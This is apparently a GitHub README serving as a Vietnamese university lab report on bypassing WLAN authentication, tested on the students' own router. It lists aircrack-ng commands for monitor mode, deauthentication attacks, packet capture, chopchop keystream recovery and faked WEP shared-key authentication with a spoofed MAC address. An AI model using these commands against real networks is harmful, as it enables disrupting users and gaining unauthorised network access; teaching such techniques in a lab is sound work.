 # WEP_WPA_Bypass
<br>
          <b>BÁO CÁO BÀI TẬP</b><br>
- Môn học: An toàn Mạng không dây và di động<br>
- Kỳ báo cáo: Buổi 03 (Session 03)<br>
- Tên chủ đề: VƯỢT QUA XÁC THỰC MẠNG WLAN<br>
- Bypassing WLAN Authentication<br>
- GV: Lê Đức Thịnh<br>
- Ngày báo cáo: 24/4/2023<br>
- Nhóm: 802.11<br>
- Lớp: NT330.N21.ANTT.1<br>
  - 20521047	20521047@gm.uit.edu.vn <br>
  - 20520514	20520514@gm.uit.edu.vn <br>
  
<h1>Tested on TL-WR841N & ParrotOS because my Kali Linux do not support monitor mode on TL-WN725N USB Wifi, so I use Parrot, and wlan0 is replaced by <i>wlx9ca2f4fd78ac</i>
<h1>

- All commands that I used
  - To see wireless interface, use `iwconfig`
  - To start monitor mode, use `airmon-ng start wlan0`
  - You can use option -c to send deauth attack to specific users.
  ```
  aireplay-ng -0 5 -a <AP's MAC> -c <IP's Client> wlan0mon
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/36d6f5f4-e763-4975-8714-2d794975eaff)
  - To see all access points, use.
  ```
  airodump-ng wlan0mon
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/a5b72f9b-aed3-4d91-9fb3-492e4513c7db)
  - To sniff packets between Client and access point, use.
  ```
  airodump-ng wlan0mon -c <channel> --bssid <mac AP> -w keystream 
  ```
  - If you do not have the .xor file, create it by using chopchop attack.
  ```
  aireplay-ng -h <Your device which you use to connect> -a <mac AP> wlan0mon
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/97bb6bf8-43bb-4d09-8794-04e629b33afe)
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/ad149d0a-7062-4b33-b3a4-1e572dc51e22) 
  - To fake SKA, use
  ```
  aireplay-ng -1 0 -e "Nhom 802.11" -y <keystream.xor> -a <MAC AP> -h AA:AA:AA:AA:AA:AA wlan0mon
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/de87245a-4bef-4b29-a673-68561f6d26dd)


  





 
